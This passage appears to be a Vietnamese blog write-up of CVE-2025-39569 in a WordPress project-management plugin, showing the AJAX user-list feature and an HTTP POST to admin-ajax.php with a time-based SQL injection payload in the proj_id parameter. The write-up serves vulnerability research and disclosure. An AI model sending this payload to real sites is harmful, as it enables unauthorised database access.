 👉 Khi click vào **icon bên cạnh Users** ajax sẽ hoạt động, gửi request đến server, lấy danh sách các user tham gia project và mã HTML hiển thị nó.

![model_display](assets/img/posts/2025-08-31-CVE-2025-39569/model_display.png)

## Exploit
### Detect SQLi

Bắt request bằng BurpSuite, gửi request với SQLi payload **time base**

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+SLEEP(1))
```

![sqli_success](assets/img/posts/2025-08-31-CVE-2025-39569/sqli_success.png)
